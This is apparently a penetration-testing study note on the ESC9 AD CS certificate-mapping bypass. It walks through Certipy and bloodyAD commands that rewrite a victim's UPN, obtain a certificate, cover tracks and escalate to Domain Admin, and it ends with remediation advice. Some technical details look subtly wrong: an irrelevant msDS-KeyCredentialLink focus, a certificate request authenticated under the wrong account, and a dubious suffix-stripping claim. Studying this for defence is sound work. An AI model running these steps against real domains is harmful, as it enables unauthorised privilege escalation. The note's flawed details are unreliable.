

# ESC9 - No Security Extension Abuse

## Introduction to ESC9

ESC9 is a sophisticated Active Directory Certificate Services (AD CS) vulnerability that emerged following Microsoft's attempts to patch earlier AD CS abuses (specifically, the patch applied in KB5014754). This vulnerability centers around the `msDS-KeyCredentialLink` attribute, the behavior of specific certificate templates, and a security feature known as the "Strong Certificate Mapping" extension (OID `1.3.6.1.4.1.311.25.2`).

To understand ESC9, we must first understand the patch it bypasses. KB5014754 was introduced to prevent attackers from modifying the `userPrincipalName` (UPN) or `sAMAccountName` of an object, requesting a certificate with that implicit SAN, and then reverting the name. To fix this, Microsoft introduced a new extension in issued certificates (the SID of the requesting user) and enforced "Strong Mapping" when the certificate is used for authentication.

ESC9 exploits a scenario where a certificate template explicitly *does not* include this security extension, combined with an attacker's ability to modify the `userPrincipalName` (UPN) of a victim object. This allows the attacker to forge a certificate that maps to a highly privileged user, bypassing the KB5014754 protections.

## The Mechanism of Strong Certificate Mapping

Before KB5014754, when a user authenticated via PKINIT using a certificate, the Domain Controller would map the certificate to an AD account primarily by looking at the Subject Alternative Name (SAN), specifically the UPN or email address. This is "Weak Mapping."

KB5014754 introduced "Strong Mapping." When a certificate is issued, the CA embeds a new extension (OID `1.3.6.1.4.1.311.25.2`) containing the actual Object SID of the user who requested it. When that certificate is later used for authentication, the Domain Controller verifies that the SID in the certificate extension matches the SID of the account it's trying to authenticate against. If they don't match, authentication fails.

### The Vulnerability: `CT_FLAG_NO_SECURITY_EXTENSION`

The ESC9 vulnerability exists because administrators can configure a certificate template to explicitly *exclude* the new SID security extension. This is done by setting the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` attribute of the certificate template.

If a template has this flag enabled, the CA will *not* embed the requester's SID into the certificate. Consequently, when this certificate is used for authentication, the Domain Controller falls back to "Weak Mapping" (mapping based on the UPN).

## The ESC9 Attack Flow and Architecture

To exploit ESC9, the attacker needs two distinct privileges:
1.  **Write Access to a Victim Account**: The attacker must have `GenericWrite`, `GenericAll`, or specifically the ability to write to the `userPrincipalName` attribute of a low-privileged account (the "Victim Account").
2.  **Enrollment Rights on a Vulnerable Template**: The attacker (or the Victim Account) must have the ability to enroll in a certificate template that allows Client Authentication AND has the `CT_FLAG_NO_SECURITY_EXTENSION` flag enabled.

### ASCII Architecture Diagram



## Detailed Exploitation Steps

The exploitation of ESC9 requires careful manipulation of AD attributes to avoid conflicts. Since AD requires UPNs to be unique within a forest, the attacker cannot simply set the Victim's UPN to `administrator@domain.local` if the real Administrator already holds that UPN.

### Step 1: Identify the Vulnerability

Use Certipy to find templates with the `CT_FLAG_NO_SECURITY_EXTENSION` flag.

```bash
certipy find -u user@domain.local -p password -dc-ip 10.10.10.10 -vulnerable
```
Look for output indicating `ESC9` vulnerability. The output will flag templates where `Enrollee Supplies Subject` is False, but `No Security Extension` is True, and the template is usable for authentication.

### Step 2: The UPN Collision Bypass (The Trick)

Because the attacker cannot duplicate the Domain Admin's exact UPN, they exploit a quirk in how Active Directory performs name suffix routing and Weak Mapping.

If the attacker sets the Victim's UPN to `Administrator@<non-existent-domain>`, the CA will put that exact string in the SAN of the certificate. When the DC attempts to map this during authentication, it might strip the non-existent suffix and look for the `sAMAccountName` "Administrator" in the local domain, successfully mapping to the highly privileged account.

*Alternatively*, if the target account does *not* have a UPN set (which is common for built-in accounts like `Administrator`), the attacker can simply set the Victim's UPN to `Administrator@domain.local` without causing a collision.

Let's assume the target `Administrator` does not have a UPN set.

### Step 3: Modify the Victim's UPN

The attacker uses their write access over the Victim account (e.g., `user01`) to change its UPN. Tools like PowerView, BloodHound, or native Active Directory tools can confirm this access.

```bash
# Using a python script or LDAP modify to change the UPN
# We change user01's UPN to Administrator@domain.local
python3 targeted_ldap_edit.py -u attacker -p pass -t user01 -upn Administrator@domain.local
```

### Step 4: Request the Certificate

The attacker authenticates as the Victim (`user01`) and requests a certificate using the vulnerable template identified in Step 1.

```bash
# Authenticate as user01, but the CA sees the UPN as Administrator@domain.local
certipy req -u user01@domain.local -p user01password -ca CORP-CA -template VulnerableTemplate -dc-ip 10.10.10.10
```

Because the template has `CT_FLAG_NO_SECURITY_EXTENSION`, the CA issues a certificate with the SAN `Administrator@domain.local` but *without* embedding `user01`'s SID.

### Step 5: Restore the Victim's UPN

To cover their tracks and ensure the mapping works correctly in the next step, the attacker reverts the Victim's UPN to its original value.

```bash
python3 targeted_ldap_edit.py -u attacker -p pass -t user01 -upn user01@domain.local
```

### Step 6: Authenticate and Escalate

The attacker uses the forged certificate to authenticate.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
```

The Domain Controller receives the certificate. It checks for the Strong Mapping SID extension (OID `1.3.6.1.4.1.311.25.2`). It does not find one. It then falls back to Weak Mapping, looks at the SAN (`Administrator@domain.local`), finds the real Administrator account, and issues a Kerberos TGT for the Domain Admin.

## Remediation and Mitigation

Remediating ESC9 requires addressing both the template configuration and the Active Directory patching level.

1.  **Remove the `CT_FLAG_NO_SECURITY_EXTENSION` Flag**: The most direct fix is to ensure that no certificate templates used for authentication have this flag enabled.
    *   This flag is not easily visible in the standard `certtmpl.msc` MMC snap-in.
    *   Administrators must use ADSI Edit or PowerShell to modify the `msPKI-Enrollment-Flag` attribute of the template object in the Configuration partition (`CN=Certificate Templates,CN=Public Key Services...`).
    *   The flag value `0x00080000` (`CT_FLAG_NO_SECURITY_EXTENSION`) must be removed from the bitmask.
2.  **Enforce Strong Certificate Mapping (Registry)**: Microsoft's patch (KB5014754) operates in different phases. To fully mitigate ESC9 and related mapping vulnerabilities, the Domain Controllers must be configured to *require* Strong Mapping.
    *   Set the `StrongCertificateBindingEnforcement` registry key on all Domain Controllers to `2` (Full Enforcement).
    *   Path: `HKLM\System\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement`
    *   *Warning*: Enabling Full Enforcement will break authentication for any existing certificates that do not have the new SID extension. Administrators must ensure all active certificates have been re-issued with the extension before enforcing this, or risk widespread outages.
3.  **Audit Account Permissions**: Implement the principle of least privilege regarding who can modify AD account properties. Users should not have `GenericWrite` or specific write access to the `userPrincipalName` or `sAMAccountName` attributes of other users unless specifically required for identity management processes.
4.  **Monitor LDAP Modifications**: Alert on frequent or suspicious modifications to `userPrincipalName` and `sAMAccountName` attributes, especially if the changes are rapidly reverted (a key indicator of this attack).

## Conclusion

ESC9 highlights the complexity of securing legacy systems like AD CS. Microsoft's attempt to fix weak mapping introduced a "Strong Mapping" feature, but backward compatibility requirements allowed administrators to explicitly disable it via the `CT_FLAG_NO_SECURITY_EXTENSION` flag. Attackers exploit this bypass by manipulating AD attributes to force the Domain Controller to fall back to the insecure Weak Mapping behavior, proving that partial mitigations are often insufficient in complex AD environments.

## Real-World Attack Scenario

**Context:** Following Microsoft's KB5014754 patch, strong certificate mapping is enabled on the `corp.local` domain. However, the attacker (`hacker01`) has discovered they possess `GenericWrite` privileges over a low-level service account (`svc_sql`). Scanning with Certipy reveals a custom template (`Legacy_Auth`) that allows client authentication but explicitly has the `CT_FLAG_NO_SECURITY_EXTENSION` flag enabled to support legacy third-party applications. 

**Attacker Thought Process:**
1.  **Preparation:** Temporarily modify the `userPrincipalName` (UPN) of the victim account (`svc_sql`) to match the built-in `Administrator` account (which currently lacks a UPN).
2.  **Exploitation:** Request a certificate as the `svc_sql` account using the `Legacy_Auth` template. Due to the `CT_FLAG_NO_SECURITY_EXTENSION` flag, the CA will omit the `svc_sql` SID from the issued certificate, circumventing the KB5014754 security patch.
3.  **Clean Up:** Revert the UPN of `svc_sql` back to its original value to avoid breaking production services and to ensure the Kerberos KDC maps the forged certificate correctly.
4.  **Takeover:** Perform PKINIT authentication using the forged certificate. Lacking the SID extension, the KDC will fall back to weak mapping, matching the UPN in the certificate to the Domain Admin.

**Execution:**
From a Linux pivot, the attacker runs:

```bash
# 1. Modify the victim's UPN to match the Domain Admin
bloodyAD --host 10.10.1.5 -d corp.local -u hacker01 -p 'Pass123' \
    setAttribute svc_sql userPrincipalName Administrator@corp.local

# 2. Request the certificate using the vulnerable template
certipy req -u 'Administrator@corp.local' -p 'SvcPass123' -dc-ip 10.10.1.5 \
    -ca CORP-CA -template Legacy_Auth

# 3. Revert the victim's UPN to hide tracks and enable routing
bloodyAD --host 10.10.1.5 -d corp.local -u hacker01 -p 'Pass123' \
    setAttribute svc_sql userPrincipalName svc_sql@corp.local

# 4. Authenticate via PKINIT to obtain Domain Admin TGT
certipy auth -pfx administrator.pfx -dc-ip 10.10.1.5
```

**Outcome:**
By abusing the `GenericWrite` permission over `svc_sql`, the attacker temporarily masquerades the service object as the Domain Admin at the LDAP level. The Enterprise CA, adhering to the vulnerable `Legacy_Auth` template configuration, issues a certificate bearing the Admin's UPN but crucially lacking the strong mapping SID extension. Upon PKINIT authentication, the Domain Controller fails to find the strong SID, gracefully falls back to weak mapping (UPN), and issues a TGT for the Domain Administrator, effectively nullifying Microsoft's KB5014754 patch.

## Chaining Opportunities
- **[[01 - BloodHound and Active Directory ACLs]]**: Crucial for finding the necessary `GenericWrite` permissions over a victim account.
- **[[02 - Kerberos Authentication and PKINIT]]**: The mechanism used to authenticate with the final forged certificate.
- **[[10 - Active Directory Object Manipulation]]**: Techniques for modifying UPNs and handling collision constraints.

## Related Notes
- **[[01 - AD CS Overview and Architecture]]**
- **[[16 - KB5014754 and Strong Certificate Mapping]]**
- **[[11 - ESC10 - Weak Certificate Mapping Abuse]]** (A closely related vulnerability dealing with registry-level mapping fallbacks).
